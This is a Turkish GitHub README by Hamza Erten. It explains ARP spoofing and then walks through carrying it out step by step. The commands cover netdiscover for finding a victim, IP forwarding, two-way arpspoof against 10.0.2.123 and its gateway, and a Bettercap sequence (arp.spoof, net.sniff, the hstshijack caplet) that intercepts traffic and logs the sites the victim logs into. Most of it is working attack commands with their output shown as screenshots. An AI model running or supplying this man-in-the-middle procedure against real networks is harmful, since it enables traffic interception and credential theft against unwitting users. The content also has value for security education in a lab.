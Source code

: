 # ARP-Spoofing
ARP Spoofing nedir ? Wireshark ve Bettercap ile uygulamalı nasıl yapılabilir?

**Author : By Hamza Erten**

## ARP Spoofing nedir ?
ARP, IP adresini MAC adresiyle ilişkilendirmek için kullanılan bir protokoldür. Ağda IP çakışmasını önlemek ve bağlantıları herhangi bir şekilde engellemek ya da durdurmak için kullanılmaktadır. Kimlik doğrulama eksikliği nedeniyle ARP, siber saldırılar açısından güvenlik açığı yaratmakta, saldırganların hassas verilere yetkisiz erişim sağlamasına yol açmaktadır.

ARP spoofing saldırılarında siber suçluların MAC adresi bir IP adresine bağlandığında, saldırgan meşru MAC adresine yönlendirilen herhangi bir mesajı alabilir, değiştirebilir veya engelleyebilir.

![arpspoofing](https://github.com/hmzart/ARP-Spoofing/assets/103367369/cda5e2a2-9345-49e4-947d-a333bf14479a)

## Wireshark ile arp spoofing adım adım 
# 1. adım 
* `ifconfig` komutunu kullanıp kendi ip adresimizi öğreniyoruz .
  
  ![ifconfig komutu](https://github.com/hmzart/ARP-Spoofing/assets/103367369/adaf7393-f8bc-41b5-bcb0-b43da3f1685d)

# 2.adım

* Belirlediğimiz kurban makinanın apisini öğrenmek için `netdiscover -i eth0 -r 10.0.2.0/24 -c 10` benim ip adresim 10.0.2.0 olduğu için girdiğim kodda 0 ila 255 arasında bulunan tüm ip lerin taranmasını sağlıyoruz.

![netdiscover komutu](https://github.com/hmzart/ARP-Spoofing/assets/103367369/cd0e219b-5ffe-4b6d-bd4d-dffa7d0af552)

* Burda 10.0.2.123 ip adresine saldırı yapılacağını anlıyoruz .

# 3. adım
  `echo 1> /proc/sys/net/ipv4/ip_forward    `  komutu ile saldırı yapılacak olan makinanın internet bağlantısının kesilmemesini sağladık.

![proc](https://github.com/hmzart/ARP-Spoofing/assets/103367369/04df024f-2af7-4c54-ac71-f1819f4540d5)

# 4. adım 
*Belirlediğim kurban makinenin ip sini ve kendi ip mizi bu şekilde    `arpspoof -i eth0 -t 10.0.2.123 10.0.2.1` , `arpspoof -i eth0 -t 10.0.2.1 10.0.2.123`  sırayla yazdıktan sonra ARP saldırısı başlar.
![arp 1](https://github.com/hmzart/ARP-Spoofing/assets/103367369/6836eefe-0de5-4f7d-b513-86f01dfccbe0)
![arp 2](https://github.com/hmzart/ARP-Spoofing/assets/103367369/12e4e696-de20-4a40-8256-92ecbac770a2)

# 5. adım 
* Kurban makineden test etmek isterseniz cmd yi çalıştırıp  `arp -a ` yazdığınızda ilk durumda MAC adreslerinin farklı saldırı gerçekleştirdikten sonra ise aynı olduğunu göreceksiniz!.
  
  ![win arp - a komutu](https://github.com/hmzart/ARP-Spoofing/assets/103367369/fadcfc9c-316e-4510-b9bd-0f2c3419489c)

# 6.adım
* Wireshark ile arp zehirlenmesini izleyebilirsiniz !
  ![wireshark arp görüntüsü](https://github.com/hmzart/ARP-Spoofing/assets/103367369/f94b43f9-f329-41d6-a79f-df32474408d0)

--- 
# Saldırıyı Bettercap ile takip etme 

## 1 . 
* `bettercap -iface et0 ` komutunu çalıştır daha sonra ` help` yaz.
![bettercap ilk komut](https://github.com/hmzart/ARP-Spoofing/assets/103367369/32628e02-3e57-43f6-86d9-9e7d7030ccab)
# 2. 
![btc help](https://github.com/hmzart/ARP-Spoofing/assets/103367369/8283f66d-c436-4056-9ace-cd03d46db4e0)

* `help net.probe`
*  `net.probe on`
*  `help arp.spoof`
  ---
  sırasıyla ;

*  `set arp.spoof.fullduplex true`
*  `set arp.spoof.internal true`
*  `set arp.spoof.targets 10.0.2.123`
*  ` arp.spoof on`
*   `net.sniff on`
   ## ve son olarak `help` çalıştırıp  aktif ettiklerimizi kontrol edelim . Son durum bu şekilde olmalı .
![help 2](https://github.com/hmzart/ARP-Spoofing/assets/103367369/650f9cc6-3dc7-4026-b725-efcdac35625b)

    
* `hstshijack/hstshijack ` komutu ile arp yi başlatabiliriz. fakat bir hata olursa `caplets.show ` ile dosya konumuna bakarak  hstshijack dosyalarını istenilen yere taşıyabiliriz .
* # 3.
  * Giriş yapmaya çalıştığı site hakkında bu şekil de  bilgi verir :
    ![log](https://github.com/hmzart/ARP-Spoofing/assets/103367369/c154f929-6b01-48ef-ac44-69c3b29fe5d1)

